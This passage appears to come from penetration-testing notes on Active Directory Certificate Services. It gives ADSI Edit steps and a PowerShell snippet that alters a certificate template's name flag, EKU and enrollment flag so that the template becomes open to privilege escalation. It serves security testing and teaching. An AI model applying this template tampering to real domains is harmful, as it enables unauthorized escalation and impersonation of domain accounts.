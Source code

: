 Refer to the `[ActiveDirectory] Certificate Services` for more information on
how to enumerate and request certificates from enrollable
`certificate templates`.

###### Certificate templates - WriteOwner / WriteDACL

Refer to the `User / group - WriteOwner` and `User / group - WriteDACL`
sections above for general techniques and tools to exploit the `WriteOwner` and
`WriteDACL` rights.

The modifications of the `ACL` can also be done through the
`Microsoft Management Console (MMC)`'s `ADSI Edit (adsiedit.msc)` snap-in
(among others):

```
mmc.exe -> Add/Remove Snap-in (Ctrl + M) -> Selection of "ADSI Edit"
  -> Connect to... -> Select a well known Naming Context: Configuration -> Ok.
  -> Configuration [<DOMAIN>] -> Go to `CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<DOMAIN_ROOT>`.
     -> Right click on the editable `certificate template` -> Properties -> Security tab to edit the access control rights.
```

###### Certificate templates - GenericAll / WriteProperty to all properties / WriteProperty to msPKI-Certificate-Name-Flag + msPKI-Certificate-Application-Policy (+ msPKI-Enrollment-Flag)

The [following PowerShell code snippet](https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/#section-3-6)
leverage cmdlets of the `ActiveDirectory` module to make an editable
`certificate template` vulnerable for privilege escalation purposes. The
`certificate template` is modified to use an user-supplied `Subject Name` and
allow for client authentication. The eventual approval of the request by a
certificate manager can be optionally disabled.

```bash
$certificateDN = "<CERTIFICATE_TEMPLATE_DN>"
$certificateAttr = Get-AdObject $certificateDN -Properties msPKI-Enrollment-Flag,msPKI-Certificate-Application-Policy
$newAttr = @{}

# Sets the CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT in the msPKI-Certificate-Name-Flag attribute so that the subject information is user-supplied.
$newAttr['msPKI-Certificate-Name-Flag'] = '1'

# Adds the clientAuth Enhanced Key Usage to the msPKI-Certificate-Application-Policy attribute so the issued certificate can be used for client authentication.
$certificateAttrAppPolicy = $certificateAttr."msPKI-Certificate-Application-Policy"
If (!$certificateAttrAppPolicy.Contains('1.3.6.1.5.5.7.3.2')) {
  $newAttr['msPKI-Certificate-Application-Policy'] = $certificateAttrAppPolicy.Add('1.3.6.1.5.5.7.3.2')
}

# If necessary, disables the CT_FLAG_PEND_ALL_REQUESTS flag (CA manager certificate request approval) in the msPKI-Enrollment-Flag attribute.
$newAttr['msPKI-Enrollment-Flag'] = $certificateAttr."msPKI-Enrollment-Flag" -band -bnot 2

# Set the new attributes on the certificate template.
Set-AdObject $certificateDN -Replace $newAttr
```
